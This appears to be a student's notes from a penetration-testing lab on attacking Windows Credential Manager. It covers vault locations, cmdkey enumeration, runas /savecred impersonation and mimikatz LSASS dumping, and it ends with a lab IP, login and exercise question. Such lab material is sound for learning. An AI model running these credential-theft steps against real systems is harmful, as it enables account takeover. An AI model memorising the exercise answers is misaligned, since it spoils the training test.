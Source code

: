 >[! Hint ] 
> Credentials are stored in special encrypted folders on the computer under the user and system profiles:
> - `%UserProfile%\AppData\Local\Microsoft\Vault\`
> - `%UserProfile%\AppData\Local\Microsoft\Credentials\`
> - `%UserProfile%\AppData\Roaming\Microsoft\Vault\`
> - `%ProgramData%\Microsoft\Vault\`
> - `%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\`

>[! Hint ]
> Each vault folder contains a `Policy.vpol` file with AES keys (AES-128 or AES-256) that is protected by DPAPI.
> 
> The following table lists the two types of credentials Windows stores:

| Name                | Description                                                                                                                                                           |
| ------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Web Credentials     | Credentials associated with websites and online accounts. This locker is used by Internet Explorer and legacy versions of Microsoft Edge.                             |
| Windows Credentials | Used to store login tokens for various services such as OneDrive, and credentials related to domain users, local network resources, services, and shared directories. |
#### Export Windows Vaults to .crd
> [! Note] 
> Export windows vaults to .crd either via Control Panel or with the following command. Backups created this way are encrypted with a password supplied by the user, and can be imported on other Windows systems.

```go
rundll32 keymgr.dll,KRShowKeyMgr
```

### Enumerating credentials with cmdkey

>[! Note]
> Use [cmdkey](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) to enumerate the credentials stored in the current user's profile:
> >	cmdkey /list

  Attacking Windows Credential Manager

```go
C:\Users\sadams>whoami
srv01\sadams

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

Stored credentials are listed with the following format:

|Key|Value|
|---|---|
|Target|The resource or account name the credential is for. This could be a computer, domain name, or a special identifier.|
|Type|The kind of credential. Common types are `Generic` for general credentials, and `Domain Password` for domain user logons.|
|User|The user account associated with the credential.|
|Persistence|Some credentials indicate whether a credential is saved persistently on the computer; credentials marked with `Local machine persistence` survive reboots.|
The first credential in the command output above, `virtualapp/didlogical`, is a generic credential used by Microsoft account/Windows Live services. The random looking username is an internal account ID. This entry may be ignored for our purposes.

The second credential, `Domain:interactive=SRV01\mcharles`, is a domain credential associated with the user SRV01\mcharles. `Interactive` means that the credential is used for interactive logon sessions. Whenever we come across this type of credential, we can use `runas` to impersonate the stored user like so:

```go
C:\Users\sadams>runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...
```

![[Pasted image 20250609143807.png]]

### Extracting credentials with Mimikatz

>[! Example ]
> With `mimikatz`, there are multiple ways to attack these credentials - we can either dump credentials from memory using the `sekurlsa` module, or we can manually decrypt credentials using the `dpapi` module. For this example, we will target the LSASS process with `sekurlsa`:

```go
C:\Users\Administrator\Desktop> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman

...SNIP...

Authentication Id : 0 ; 630472 (00000000:00099ec8)
Session           : RemoteInteractive from 3
User Name         : mcharles
Domain            : SRV01
Logon Server      : SRV01
Logon Time        : 4/27/2025 2:40:32 AM
SID               : S-1-5-21-1340203682-1669575078-4153855890-1002
        credman :
         [00000000]
         * Username : mcharles@inlanefreight.local
         * Domain   : onedrive.live.com
         * Password : ...SNIP...

...SNIP...
```

## Questions

Username
```go
sadams
```

Password
```go
totally2brow2harmon@
```

IP
```go
10.129.247.96
```

RDP
```go
xfreerdp /v:10.129.247.96 /u:sadams /p:totally2brow2harmon@ /cert:ignore
```

1) What is the password mcharles uses for OneDrive?

